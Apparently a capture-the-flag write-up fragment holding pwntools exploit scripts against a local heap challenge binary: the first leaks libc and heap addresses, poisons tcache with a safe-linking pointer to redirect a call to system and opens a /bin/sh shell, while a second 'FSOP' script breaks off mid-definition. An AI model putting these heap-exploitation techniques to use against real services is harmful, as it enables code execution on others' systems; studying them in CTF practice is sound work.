 ```python
add(0,0x450)
add(1,0x40)
add(2,0x40)
add(3,0x20)

delete(0)
print_note(0)
p.recvuntil(b'Data: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) -  0x21ace0
log.info(f'leak libc: {hex(libc.address)}')
delete(2)
delete(1)

print_note(2)
p.recvuntil(b'Data: ')
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')

input()
read_note(1,0x30,p64(obfuscate(libc.address+0x21a070,0x8e0+heap_base)))
add(1,0x40)
add(2,0x40)
log.info(f'system: {hex(libc.sym.system)}')
read_note(2,0x39,b'/bin/sh\x00'.ljust(0x28,b'a') + p64(libc.sym.system))

print_note(2)


p.interactive()
```

exp2 FSOP: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
"""
gdb.attach(p,gdbscript='''
           set follow-fork-mode parent
           brva 0x00000000000015EE
           brva 0x00000000000016CA
           brva 0x000000000000183F
           brva 0x0000000000001931

           ''')
"""
def add(idx,Size):
    p.sendlineafter(b'Your choice: ',b'1')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())
    p.sendlineafter(b'Size: ',f'{Size}'.encode())

def delete(idx):
    p.sendlineafter(b'choice: ',b'2')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())

def read_note(idx,size,data):
```